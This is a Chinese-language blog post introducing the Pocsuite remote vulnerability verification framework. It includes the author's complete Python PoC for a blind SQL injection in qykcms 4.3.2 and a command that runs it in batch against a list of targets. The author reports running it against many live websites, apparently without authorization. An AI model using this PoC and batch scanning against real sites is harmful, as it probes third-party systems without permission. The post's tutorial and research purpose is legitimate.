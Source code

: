 # -
PocSuite是一款基于漏洞与 PoC的远程漏洞验证框架

关于pocsuite的使用
0x00 前言

pocsuite的用处就不多说了，早些时候也看到黑哥和余弦大佬在微博上说zoomeye 和pocsuite升级了。

结合最近自己在审计cms，也想收集一下其他cms的poc，比如chybeta大佬的cmsPoc，还有Lucifer1993大佬的AngelSword，用pcosuite重新写一下poc，同时自己审出来的一些"0day"也是可以用这个框架。

 

0x01 文档文档

在大概看完文档之后，说说感觉。

pocsuite官网（http://pocsuite.org/），github地址(https://github.com/knownsec/Pocsuite)

1，pocsuite升级之后提供了一个控制台交互模式，之前貌似没有？？不是很清楚。



 2，pocsuite的强大之处是结合了知道创宇自家的几大产品，zoomeye和seebug。zoomeye能够提供大量的可疑目标，而seebug能够提供大量的poc，这几者结合真乃神器了。

 

但我在用zoomeye的时候有个疑惑，Seebug 搜索关键词，这个seebug搜索的漏洞，是平台上全部的吗？还有就是假如是metinfo，metinfo有多个可执行的poc，那么是全部执行吗？

在我测试之后发现这个poc是来源于你自己seebug账号提交的poc，你有多少poc就能搜多少。。相当于提供了一个云端的渗透测试工具。

假如你换了系统，就不需要把之前自己写代码拷过去了。直接下载pocsuite就可以使用，唯一需要配置的就是你的404账号和密码。



 

3，还有就是提供了给其他应用调用pocsuite的接口，那么个人也是可以利用这个diy出自己的批量漏扫。



毕竟轮子已经造好了，不用白不用啊！

 

0x02 编写poc

先说说下载，可以用git下载，也可以用pip安装，都很方便。用pip方便你可以随时使用，无须cd到具体目录去，当然可以配置环境变量以达到pip的效果。

pocsuite poc的编写其实并不难，按照文档给的模板，把该填的填了就行。

pocsuite poc提供了两种编写方式，一种是python，一种是json。个人主张python，自由度高，json方式看都没怎么看，完型填空，而且都是限制死了的。

主要的还是是编写verify 和attack 模式的代码，需要尽可能的减少需要从外部接收的参数，更加利于批量调度，也减少了用户的使用学习成本。毕竟脚本这种东西弄出来就是为了方便。

下面贴一贴自己之前审的qykcms前台的一个盲注poc

复制代码
 1 #coding:utf-8
 2 
 3 from pocsuite.net import req
 4 from pocsuite.poc import POCBase,Output
 5 from pocsuite.utils import register
 6 import random
 7 import string
 8 
 9 def randomstr():
10     return random.choice(string.ascii_letters)*5
11 
12 class TestPOC(POCBase):
13     name = 'front boolean sqli in qykcms version 4.3.2'
14     version = '1'
15     vulID = '1'
16     author = ['r00tuser']
17     vulType = 'SQL Injection'
18     references = 'http://www.cnblogs.com/r00tuser/p/8044025.html'
19     desc = '''The vulneability is caused by filter the get_ip method,
20     and taker the userip into the database
21     '''
22     vulDate = '2017-12-15'
23     createDate = '2017-12-20'
24     updateDate = '2017-12-20'
25 
26     appName = 'qykcms'
27     appVersion = '4.3.2'
28     appPowerLink = 'http://www.qykcms.com/'
29     samples = ['']
30 
31     def _attack(self):
32         '''attack mode'''
33         return self._verify()
34 
35     def _verify(self):
36         '''verify mode'''
37         result = {}
38         data= {'lang':'cn','name':randomstr(),'content':randomstr(),'email':str(randomstr()+'@qq.com'),'phone':'','attachment':''}
39         headers = {'Referer': 'http://' + self.url,'X-Forwarded-For':'test'}
40         httpreq = req.session()
41         httpurl = self.url+'/?log=post&desc=feedback'
42         #first req
43         try:
44             response1 = httpreq.post(httpurl,data=data,headers=headers,timeout=3)
45         except Exception,e:
46             pass
47         #second req
48         try:
49             response2 = httpreq.post(httpurl,data=data,headers=headers,timeout=3)
50             if response2.status_code != 200:
51                 return self.parse_output(result)
52             response2.encoding = response2.apparent_encoding
53             if u'系统限制' in response2.text:
54                 result['VerifyInfo'] = {}
55                 result['VerifyInfo']['URL'] = self.url
56         except Exception,e:
57             pass
58         return self.parse_output(result)
59 
60     def parse_output(self,result):
61         output = Output(self)
62         if result:
63             output.success(result)
64         else:
65             output.fail('Internet nothing returned')
66         return output
67 
68 register(TestPOC)
复制代码
本来用的是评论框来检测的，后来发现用户需要输入的东西太多了，然后改成用留言框。立马方便了很多，用户只需要输入网址便可。关于原因请看我的博文（http://www.cnblogs.com/r00tuser/p/8044025.html）

代码很简单也没有好说的。

 

0x03 实例使用

然后就是用这个脚本去跑啊跑，测试测试，修正修正bug。

跑了n多个网站，没有几个是可以的，心都凉了。

哎，鸡肋的洞就是麻烦。

不得不说pocsuite提供的批量扫目标（1对多），与及批量脚本扫批量目标（多对多）的功能是非常实用的。



1
python pocsuite.py -r modules/qykcms_4_3_2_front_boolean_sqli.py -f qykcms.txt --threads 5


用了五个线程，16个target 秒出。
